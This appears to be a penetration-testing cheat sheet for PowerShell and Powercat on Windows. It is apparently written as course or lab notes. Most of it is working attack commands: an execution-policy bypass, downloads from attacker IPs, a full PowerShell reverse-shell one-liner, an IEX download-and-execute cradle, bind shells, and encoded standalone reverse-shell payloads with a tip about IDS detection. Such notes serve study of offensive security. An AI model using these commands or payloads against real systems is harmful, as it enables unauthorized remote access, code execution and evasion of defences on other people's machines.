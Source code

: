 > Platform: Windows

# PowerShell
Windows (already installed in Windows)
Default execution policy is "restricted". To set "unrestricted", launch Powershell as administrator:
- right click Windows button, then select "Windows PowerShell (Admin)"
- `Set-ExecutionPolicy Unrestricted`, enter `Y`
- check execution policy: `Get-ExecutionPolicy`

### File Transfer (over HTTP)
1. Set up Apache server
	- put file to be transferred (e.g. `wget.exe`) in `/var/www/html/`: `sudo cp wget.exe /var/www/html`
	- start Apache server: `sudo systemctl start apache2`
2. Download file on the Windows machine (in cmd)
	- `powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe','C:\Users\offsec\Desktop\wget.exe')"`
		- `-c`: execute the supplied command (wrapped in double quotes) as if it were typed in the PowerShell prompt
		- `'http://10.11.0.4/wget.exe'`: source location (URI)
		- `'C:\Users\offsec\Desktop\wget.exe'`: target location where the downloaded file will be stored

Or (in PS): `iwr -uri http://192.168.48.3/winPEASx64.exe -Outfile winPEAS.exe`

### Reverse Shell
1. Set up netcat listener on own machine: `sudo nc -nvlp 443`
2. Send reverse shell one-liner on target machine: 
```Powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',80);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

OR
```powershell
IEX (New-Object Net.Webclient).downloadstring('http://10.10.14.2/admin.ps1')
```

### Bind Shell
1. Set up bind shell on target machine: `[very long one-liner]`
2. Connect to bind shell from own machine: `nc -nv 10.11.0.22 443`

### Execute b64 encoded command
1. Encode the command with Cyberchef:
   ![[Pasted image 20241204232252.png]]
2. `powershell -enc [encoded command here]`

### Running scripts

Allow running scripts:
`powershell -ep bypass`

Load script:
`. .\PowerUp.ps1`

# Powercat
the powershell version of netcat
simplifies creation of bind and reverse shells
Windows
https://github.com/besimorhino/powercat/tree/master

### Install Powercat in Windows
1. Open PowerShell
2. Load Powercat script into our PowerShell session (only available in the current instance): `. .\powercat.ps1`
3. Check if Powercat has loaded properly: `powercat -h` (should see the help manual)

### File Transfer (from target machine)
1. Set up netcat listener on own machine: `nc -nvlp 443 > receiving_powercat.ps1`
2. Invoke Powercat on target machine: `powercat -c 10.11.0.4 -p 443 -i C:\Tools\practical_tools\powercat.ps1`
	- `-c`: specify client mode
	- `10.11.0.4 -p 443`: specify remote IP address and port to connect to
	- `-i`: indicate the local file to be transferred to the listener
3. On own machine, kill netcat process and check if file has been received

### Reverse Shell
1. Set up netcat listener on own machine: `sudo nc -vlp 443`
2. On target machine, use powercat to send reverse shell: `powercat -c 10.11.0.4 -p 443 -e cmd.exe`
	- `-e`: specify the application to execute once connected to the listening port

### Bind Shell
1. create listener on target computer: `powercat -l -p 443 -e cmd.exe`
	- `-l`: create listener
	- `-p [port number]`: specify port number to listen to
	- `-e cmd.exe`: execute `cmd.exe` once connected
2. create netcat connection to the bind shell from own computer: `nc -nv 10.11.0.22 443`

### Stand-Alone Payloads
A generated PowerShell script using Powercat functionalities
- `[your payload] -g > filename.ps1`
- e.g. reverse shell payload
	- `powercat -c 10.11.0.4 -p 443 -e cmd.exe -g > reverseshell.ps1`
	- to execute: `reverseshell.ps1`
Standalone payloads may be easily detected by IDS.
Generate encoded payload:
- `[your payload] -ge > encodedfilename.ps1`
- to execute: `powershell.exe -E [paste entire encoded script here]`